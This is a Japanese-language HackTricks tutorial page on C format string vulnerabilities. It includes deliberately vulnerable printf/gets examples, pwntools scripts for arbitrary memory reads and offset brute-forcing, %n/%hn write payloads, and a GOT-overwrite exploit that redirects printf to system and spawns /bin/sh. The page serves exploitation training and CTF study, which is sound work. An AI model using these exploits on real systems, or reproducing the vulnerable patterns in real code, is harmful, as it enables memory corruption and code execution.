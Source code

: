 # フォーマット文字列

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 基本情報

Cの**`printf`**は、いくつかの文字列を**印刷**するために使用できる関数です。この関数が期待する**最初のパラメータ**は、**フォーマッタを含む生のテキスト**です。**次のパラメータ**は、**生のテキストからフォーマッタを**置き換えるための**値**です。

他の脆弱な関数には**`sprintf()`**と**`fprintf()`**があります。

脆弱性は、**攻撃者のテキストがこの関数の最初の引数として使用されるとき**に現れます。攻撃者は、**printfフォーマット**文字列の機能を悪用して、**任意のアドレス（読み取り可能/書き込み可能）にある任意のデータを読み書き**するための**特別な入力を作成**することができます。この方法で**任意のコードを実行**することが可能です。

#### フォーマッタ：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**例:**

* 脆弱な例:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 通常の使用:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 引数が欠落している場合:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 脆弱性:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **ポインタへのアクセス**

フォーマット **`%<n>$x`** は、`n` が数字である場合、printf にスタックから n 番目のパラメータを選択するよう指示します。したがって、printf を使用してスタックから 4 番目のパラメータを読み取りたい場合は、次のようにできます:
```c
printf("%x %x %x %x")
```
そして、最初から4番目のパラメータまで読み取ることができます。

または、次のようにすることもできます：
```c
printf("%4$x")
```
and read directly the forth.

攻撃者は `printf` **パラメータを制御しており、これは基本的に** 彼の入力が `printf` が呼び出されるときにスタックに存在することを意味し、彼はスタックに特定のメモリアドレスを書き込むことができるということを意味します。

{% hint style="danger" %}
この入力を制御する攻撃者は、**スタックに任意のアドレスを追加し、`printf` がそれにアクセスできるようにします**。次のセクションでは、この動作をどのように利用するかが説明されます。
{% endhint %}

## **任意の読み取り**

フォーマッタ **`%n$s`** を使用して **`printf`** に **n 番目の位置** にある **アドレス** を取得させ、**文字列のように印刷させる**（0x00 が見つかるまで印刷する）ことが可能です。したがって、バイナリのベースアドレスが **`0x8048000`** であり、ユーザー入力がスタックの4番目の位置から始まることがわかっている場合、次のようにバイナリの先頭を印刷することができます：
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
入力の最初にアドレス0x8048000を置くことはできません。なぜなら、そのアドレスの最後に0x00で文字列が切られるからです。
{% endhint %}

### オフセットを見つける

入力のオフセットを見つけるために、4バイトまたは8バイト（`0x41414141`）を送信し、その後に**`%1$x`**を続けて、`A`の値を取得するまで**増加**させます。

<details>

<summary>ブルートフォースprintfオフセット</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### どれほど役立つか

任意の読み取りは以下に役立ちます：

* **メモリから** **バイナリ**を**ダンプ**する
* **機密** **情報**が保存されているメモリの特定の部分に**アクセス**する（例えば、この[**CTFチャレンジ**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)のように、カナリア、暗号化キー、またはカスタムパスワードなど）

## **任意の書き込み**

フォーマッタ **`%<num>$n`** は、スタックの\<num>パラメータで指定されたアドレスに**書き込まれたバイト数**を**書き込みます**。攻撃者がprintfを使って任意の数の文字を書き込むことができれば、**`%<num>$n`** を使って任意のアドレスに任意の数を**書き込む**ことができます。

幸いなことに、9999という数を書くために、入力に9999個の"A"を追加する必要はなく、フォーマッタ **`%.<num-write>%<num>$n`** を使用して、**`<num-write>`** の数を**`num`位置で指し示されるアドレス**に書き込むことが可能です。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
しかし、通常、`0x08049724`のようなアドレスを書くためには（これは一度に書くには非常に大きな数です）、**`$hn`**が**`$n`**の代わりに使用されます。これにより、**2バイトだけを書く**ことができます。したがって、この操作は2回行われます。1回目はアドレスの上位2バイト、2回目は下位2バイトです。

したがって、この脆弱性は**任意のアドレスに何でも書き込むことを可能にします（任意書き込み）。**

この例では、目標は**後で呼び出される**関数の**アドレス**を**上書き**することです。これは他の任意書き込みからexec技術を悪用することもできます：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

私たちは、**ユーザー**から**引数**を**受け取る**関数を**上書き**し、それを**`system`**関数に**ポイント**します。\
前述のように、アドレスを書くためには通常2ステップが必要です：最初にアドレスの2バイトを書き、その後に残りの2バイトを書きます。そのために**`$hn`**が使用されます。

* **HOB**はアドレスの上位2バイトに呼び出されます
* **LOB**はアドレスの下位2バイトに呼び出されます

次に、フォーマット文字列の動作のために、最初に\[HOB, LOB\]の中で最小のものを**書く必要があります**。次にもう一方を書きます。

もしHOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

もしHOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools テンプレート

この種の脆弱性に対するエクスプロイトを準備するための**テンプレート**は以下にあります:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

または、[**こちら**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)の基本的な例もあります:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## フォーマット文字列からBOFへ

フォーマット文字列の脆弱性の書き込みアクションを悪用して、**スタックのアドレスに書き込む**ことが可能であり、**バッファオーバーフロー**タイプの脆弱性を悪用することができます。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32ビット、relroなし、canaryなし、nx、pieなし、スタックからフラグを漏洩させるためのフォーマット文字列の基本的な使用（実行フローを変更する必要はありません）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、win関数で`fflush`のアドレスを上書きするためのフォーマット文字列（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、`.fini_array`内のmainのアドレスに書き込むためのフォーマット文字列（フローがもう1回ループバックするように）および`strlen`を指すGOTテーブル内の`system`へのアドレスを書き込む。フローがmainに戻ると、`strlen`がユーザー入力で実行され、`system`を指すと、渡されたコマンドが実行されます。

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

HackTricksをサポートする

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**
{% endhint %}
